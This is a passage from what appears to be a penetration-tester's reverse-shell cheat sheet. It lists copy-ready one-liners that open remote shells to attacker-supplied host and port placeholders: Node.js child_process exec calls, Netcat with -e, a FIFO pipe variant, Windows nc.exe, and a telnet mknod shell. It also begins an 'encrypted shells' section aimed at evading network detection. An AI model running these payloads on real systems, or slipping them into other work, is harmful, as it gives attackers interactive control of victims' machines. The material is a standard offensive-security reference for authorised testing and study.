 ```js
require('child_process').exec('nc -e /bin/sh {{< param lhost >}} {{< param lport >}}')
```

```js
-var x = global.process.mainModule.require
-x('child_process').exec('nc {{< param lhost >}} {{< param lport >}} -e /bin/bash')
```

### Netcat

```sh
nc -e /bin/sh {{< param lhost >}} {{< param lport >}}
```

Depending on the Netcat version, the `-e` option may not be available, but you still can execute a command after connection being established by redirecting file descriptors.
A FIFO or named pipe can be created locally so when a connection is established, `/bin/sh` gets executed and the shell prompt is given to the remote machine.[^nc-openbsd]

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{< param lhost >}} {{< param lport >}} >/tmp/f
```

### Netcat Windows

```sh
nc.exe {{< param lhost >}} {{< param lport >}} -e cmd.exe
```

### Telnet

```sh
rm -f /tmp/f; mknod /tmp/f p && telnet {{< param lhost >}} {{< param lport >}} 0/tmp/p
```

{{<hint info>}}
A FIFO can be create both with `mknod <path> p` or `mkfifo <path>` .
{{</hint>}}


## Encrypted Shells

During an engagement is imperative to encrypt the communication between the target and the attacker to protect sensitive data and from further activity analysis.

Although most of the tools listed below do not support certificate pinning, meaning they won't protect you against a MITM attack, they can significantly reduce the risk of sniffing and IDS detection. [^cert-pinning]

### OpenSSL [^openssl]

Before starting the listener, a key pair and a certificate must be generated.

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
{{<details "Parameters"></details>}}


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.